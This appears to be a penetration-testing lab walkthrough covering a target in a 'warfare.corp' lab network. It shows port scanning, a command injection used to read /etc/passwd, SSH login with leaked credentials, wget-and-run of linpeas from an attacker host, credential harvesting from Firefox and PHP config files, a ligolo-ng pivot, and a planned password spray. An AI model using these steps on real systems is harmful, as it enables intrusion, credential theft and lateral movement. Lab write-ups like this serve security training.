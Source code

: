 # Temp1

## General Info





## Network Discovery

```bash
nmap -sn 192.168.80.0/24

Nmap scan report for 192.168.80.10
```

## Port Scanning

```bash
nmap -T4 -sV -p- --open -oN port_scan.txt 192.168.80.10

Nmap scan report for 192.168.80.10
Host is up (0.066s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumration

In the email newsletter there is a Command Injection. We can read the /etc/passwd and obtain a clear-credential.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
```

## SSH Access

with the credentials obtained, let's try to access through SSH.

```bash
ssh privilege@192.168.80.10
> Admin@962
```

### Linux Enum with linpeas

```bash
# Attacker machine
peass
cd linpeas
python3 -m http.server 80

# target machine
wget http://10.10.200.56/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

We discovered:

* New network to pivoting

```bash
ens34: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.98.15  netmask 255.255.255.0  broadcast 192.168.98.255
        ether 00:50:56:96:e4:32  txqueuelen 1000  (Ethernet)
        RX packets 727  bytes 122997 (122.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1211  bytes 267261 (267.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  base 0x1000  
```

* Mozilla juicy DB

```
/home/privilege/.mozilla/firefox/b2rri1qd.default-release/places.sqlite
/home/privilege/.mozilla/firefox/b2rri1qd.default-release/credentialstate.sqlite
/home/privilege/.mozilla/firefox/b2rri1qd.default-release/storage.sqlite

```

* Password in PHP config

```
/var/www/html/config.php:        $password = 'Web!@#$%';
```



### Creds in Firefoz Bookmarks

Print the Table `moz_bookmarks` of the places.sqlite db and we obtain a AD credential

{% code overflow="wrap" %}
```bash
sqlite3 places.sqlite
SELECT * FROM moz_bookmarks;

# query output
18|1|16|5|0|http://192.168.98.30/admin/index.php?user=john@child.warfare.corp&pass=User1@#$%6|||1737028407427000|1737029666390000|tuXr2pTr03P2|1|7

```
{% endcode %}

Credential obteined:

```
john@child.warfare.corp:User1@#$%6
```



## Pivoting

With the other Network found make a pivot connection

{% code overflow="wrap" %}
```bash
#Attacker Machine, download proxy & agent :
#Proxy
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

#Agent
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

python3 -m http.server 8080

wget http://10.10.200.56:80/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```
{% endcode %}

Set up the attacker machine

```bash
sudo ip tuntap add user kali mode tun ligolo

#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
sudo ip route del 192.168.98.0/24 dev tun0

#Up the ligolo interface :
sudo ip link set ligolo up

#Add 192.168.98.0/24 IP range to the ligolo interface :
sudo ip route add 192.168.98.0/24 dev ligolo
```

```bash
# start the proxy on attacker machine
./proxy -selfcert -laddr 0.0.0.0:443

# start the agent on the target machine
./agent -connect 10.10.200.56:443 -ignore-cert
```

On the ligolo-ng proxy, check the session & start the tunnel.

```
session
start
```

Try to ping the device discovered into Mozilla Firefox

```bash
ping 192.168.98.30

PING 192.168.98.30 (192.168.98.30) 56(84) bytes of data.
64 bytes from 192.168.98.30: icmp_seq=1 ttl=64 time=100 ms
64 bytes from 192.168.98.30: icmp_seq=2 ttl=64 time=102 ms
```

## Network Discovery (Network 2)

Using SSH connection as Privilege user to Linux machine we can run the arp command to discover other device in the another networks

```
privilege@ubuntu-virtual-machine:~$ arp -a

? (192.168.80.1) at 00:50:56:96:c4:bf [ether] on ens32
? (192.168.98.2) at 00:50:56:96:1e:98 [ether] on ens34
? (192.168.98.30) at 00:50:56:96:f8:38 [ether] on ens34
? (192.168.98.1) at 00:50:56:96:0e:7d [ether] on ens34
? (192.168.98.120) at 00:50:56:96:70:ab [ether] on ens34
```

Now create a file with all host discovered (including the start machine)

{% code title="targets.txt" %}
```
192.168.98.2
192.168.98.15
192.168.98.30
192.168.98.120
```
{% endcode %}

Now try to do a Password Spray with AD credentials discovered before.

...

